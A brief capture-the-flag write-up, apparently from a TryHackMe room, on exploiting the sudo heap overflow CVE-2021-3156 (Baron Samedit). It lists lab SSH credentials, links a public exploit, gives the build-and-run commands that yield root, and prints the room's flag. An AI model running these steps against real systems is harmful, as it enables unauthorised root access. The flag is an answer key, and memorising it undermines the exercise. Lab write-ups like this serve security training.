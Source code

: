 > Baron Samedit | CVE-2021-3156

**export IP=10.10.73.70**

We are given SSH Credentials `tryhackme`:`tryhackme`. We have an exploit in this link `https://github.com/blasty/CVE-2021-3156`

# Installing

1. cd Exploit
2. make 
3. ./sudo-hax-me-a-sandwich 1

We are in as root!!!!

# root.txt

```
THM{NmU4OWYwMWJmMjkxMDdiYTU4MWIxNWVk}
```